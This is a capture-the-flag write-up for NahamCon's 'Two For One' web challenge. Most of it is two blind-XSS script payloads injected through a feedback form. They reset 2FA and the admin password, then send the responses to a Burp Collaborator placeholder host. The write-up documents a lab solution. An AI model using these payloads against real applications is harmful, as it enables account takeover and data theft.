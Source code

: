 ## Two For One
> We all love our hacker t-shirts. Make your own custom ones.

Application vulnerable to blind xss on feedback, Logic bugs on Change password (doesnot require old password). Only require 2FA can be reset easily.
First, reset 2FA with this payload: 
```html
"><script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31632/reset2fa', false);
    xhr.send();
    document.location='https://<burp_collaborator>/?otp='+xhr.response;
</script>
```
Second: add authenticator token and get OTP to send reset password request. 
```html
"><script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31632/reset_password', false);
    xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
    xhr.send(JSON.stringify({"otp":"068728","password":"1","password2":"1"}));
    document.location='https://<burp_collaborator>?res='+xhr.response;
</script>
```

Login to with `admin/1` and get flag: ![Alt text](flag.png?raw=true "Title")
